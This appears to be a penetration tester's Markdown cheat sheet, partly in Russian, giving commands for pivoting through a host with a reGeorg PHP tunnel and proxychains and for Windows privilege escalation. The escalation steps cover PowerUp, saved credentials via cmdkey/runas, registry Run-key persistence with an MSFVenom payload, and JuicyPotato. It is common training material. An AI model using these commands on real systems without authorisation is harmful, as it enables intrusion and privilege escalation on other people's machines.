 
## 🌐 Pivoting with reGeorg
- Используется, когда нет высоких привилегий на pivot-машине
- Путь к скрипту: `/root/Desktop/tools/reGeorg/tunnel.php`

### Шаги:
1. Залей `tunnel.php` на pivot-машину.
2. На атакующей машине запусти:
```bash
python reGeorgSocksProxy.py -p 9050 -u http://TARGETIP/PATHTO_TUNNEL.PHP
```
3. Используй `proxychains` для подключения к целевой машине:
```bash
proxychains <command> FINALTARGETIP
```
___
___
# 🪟 Windows Privilege Escalation

## 🔧 PowerUp
```powershell
powershell -ep bypass
. .\PowerUp.ps1
Invoke-PrivescAudit
```

---

## 🔑 Saved Credentials via cmdkey
```cmd
cmdkey /list
runas.exe /savecred /user:founduser cmd
```

---

## 📝 Registry Autoruns
```powershell
Get-Acl -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run' | Format-List
# Change an existing key or create a new one pointing to a MSFVenom payload
# It will execute on user login
```

---

## 🥔 Juicy Potato
1. Create MSFVenom payload and upload it to target.
2. Upload `juicypotato.exe` to target.
3. Run:
```cmd
Juicypotato.exe -l 5555 -p PATHTOPAYLOAD -t * -c CLSID
```
📌 [CLSID Reference](https://ohpe.it/juicy-potato/CLSID/)

---